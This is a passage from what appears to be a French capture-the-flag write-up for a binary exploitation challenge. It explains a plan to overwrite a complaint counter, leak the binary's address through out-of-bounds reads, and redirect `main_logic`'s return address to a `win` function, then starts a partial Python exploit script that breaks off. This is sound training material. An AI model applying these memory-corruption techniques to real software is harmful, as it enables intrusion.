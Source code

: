 on peut en conclure que cette adresse de retour correspond à celle de la fonction `main_logic`. Donc elle sera utilisé quand on quitte le menu.

Si on compte, on voit que l'adresse de retour fait partie de la plainte 6. On peut donc la modifier, remplacer l'adresse de retour par l'adresse de win et quitter le menu.
Il faut prendre en compte qu'il ne s'agit pas du début de la plainte 6, il faut rajouter 8 caractères avant ceux qui vont remplacer l'adresse de retour dans `modifier_plainte_par_index`.
![](retaddr_overwrite.png)

Résumé:
- Ajouter 5 plaintes
- Modifier la dernière pour écraser `nombre_plainte`
- Leak l'adresse du binaire en lisant des valeurs en dehors du tableau des plaintes
- Réécrire l'adresse de retour de `main_logic` en écrivant dans la plainte 6.

#### Les problèmes
Ecrivons notre exploit:
```py
def exploit():
	# Fonctions pour intéragir avec le menu du binaire.
    def add(data):
        choice(1)
        sprefix(data)
    def edit(index, data):
        choice(2)
        choice(index)
        sprefix(data)
    def show():
        choice(3)
        recvu(b"Liste des plaintes:\n")
        leak = recvu(b"1. Ajouter")
        leaks = []
        for l in leak.splitlines():
            leaks.append(getb(l, b". ", b""))
        return leaks
    def quit():
```